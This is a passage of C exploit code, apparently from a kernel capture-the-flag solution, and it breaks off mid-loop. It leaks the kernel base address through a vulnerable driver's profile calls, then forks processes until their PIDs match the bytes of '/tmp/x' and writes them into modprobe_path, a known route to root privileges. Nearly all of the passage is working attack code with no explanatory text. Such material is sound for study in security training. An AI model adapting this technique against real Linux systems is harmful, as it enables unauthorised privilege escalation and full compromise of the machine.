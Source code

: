 ```c
{
    char string[] = "TMPSTR";
    struct task t;
    struct profile p;
    uint8_t i;
    uint64_t kernel_base;

    //leak kernel base address
    p.name = string;
    p.t = &t;
    memset(&t, 0, sizeof(t));
    set_profile(&p);
    for (i = 0x81; i < 0xff; i++)
    {
        p.name = string;
        p.t = (struct task*)((0xffffffff00000000 | i << 24) + 0x1256f40);
        if (get_profile(&p) == 0)
        {
            kernel_base = 0xffffffff00000000 | i << 24;
            printf("found kernel base: %llx\n", kernel_base);
            break;
        }

    }
    p.t = &t;
    remove_profile(&p);
    uint64_t modprobe_path = kernel_base + 0x1256f40;
    printf("modprobe_path: %llx\n", modprobe_path);
    
    //overwrite modprobe_path
    //char modprobe[] = "/tmp/x\0";
    uint32_t modprobe[] = {0x742f, 0x706d, 0x782f};
    int index = 0;
    string[5] = 0x41;
    while(1)
    {
        int pid = fork();
        int status;
        if (pid == 0)
        {
            pid = getpid();
            //printf("%d\n", pid);
            if((pid & 0xffff) == modprobe[index])
            {
                printf("found pid: %x\n", pid);
                set_profile(&p);
                p.t = (struct task*)(modprobe_path - 8 + (index * 2));
                printf("get profile status: %d\n", get_profile(&p));
                exit(1);
            }
            else
            {
                exit(0);
            }
        }
        else
        {
            waitpid(pid, &status, 0);
            if(WEXITSTATUS(status) == 1)
            {
                printf("%d th index clear\n", index);
                string[5]++;
                index++;
```